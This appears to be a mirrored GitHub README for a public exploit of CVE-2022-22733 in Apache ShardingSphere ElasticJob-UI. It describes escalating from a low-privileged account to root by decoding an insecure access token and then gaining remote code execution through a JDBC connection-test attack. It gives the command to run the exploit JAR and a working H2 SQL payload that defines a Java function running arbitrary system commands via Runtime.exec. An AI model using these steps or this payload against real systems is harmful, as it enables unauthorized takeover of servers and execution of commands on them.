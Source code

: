 # CVE-2022-22733

Apache ShardingSphere ElasticJob-UI Privilege Escalation & RCE Exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Zeyad-Azima](https://github.com/Zeyad-Azima) |
| Url      | [https://github.com/Zeyad-Azima/CVE-2022-22733](https://github.com/Zeyad-Azima/CVE-2022-22733)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* apache* apache2* exploit* java* shardingsphere* vulnerability

</details>

## Readme

# CVE-2022-22733


CVE-2022-22733 is a vulnerabilit that affects Apache ShardingSphere ElasticJob-UI 3.0.0 and below versions, The vulnerability lead to Privilege Escalation. But, with abusing of the escalated privileges a `JDBC` Attack it can preformed & achieve RCE. You can read the vulnerability analysis from [Here](https://www.vicarius.io/vsociety/blog/cve-2022-22733-apache-shardingsphere-elasticjob-ui-privilege-escalation) & The exploit writing blog step by step from [Here](https://www.vicarius.io/vsociety/blog/unique-exploit-cve-2022-22733-privilege-escalation-and-rce).

![elasticjob](https://user-images.githubusercontent.com/62406753/234271377-56e490ad-b70c-4c33-9423-e18656489b18.png)

The Exploit Works as the following:
- Login with the low-privileged account.
- Obtain the unsecure generated `accessToken`.
- Decode the unsecure generated `accessToken`.
- Parse the decoded data from the `accessToken`.
- Retrive `root` account credentials from the parsed data.
- Login with the `root` account credentials and obtain a full privileges on the application.
- Send a Connection Test request with abusing of the``JDBC` Attack.

# Usage
You can download `JAR` file from [here](https://github.com/Zeyad-Azima/CVE-2022-22733/releases/tag/CVE-2022-22733) & Source code [here](https://github.com/Zeyad-Azima/CVE-2022-22733/blob/main/src/Main.java).

- Execute `jar`:
```
java -jar CVE-2022-22733.jar
```
- SQL script code:
```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "123";}';CALL EXEC ('your_command_here')
```
# Demo
![idea64_5Ru1DeWcKE](https://user-images.githubusercontent.com/62406753/234266805-e387ffbe-b347-4176-9891-77168604c8f1.gif)



## Get the content

```
git clone https://github.com/Zeyad-Azima/CVE-2022-22733
cd CVE-2022-22733
```

{% embed url="https://github.com/Zeyad-Azima/CVE-2022-22733" %}

<figure><img src="https://avatars.githubusercontent.com/u/62406753?v=4" alt=""><figcaption><p>Zeyad-Azima</p></figcaption></figure>
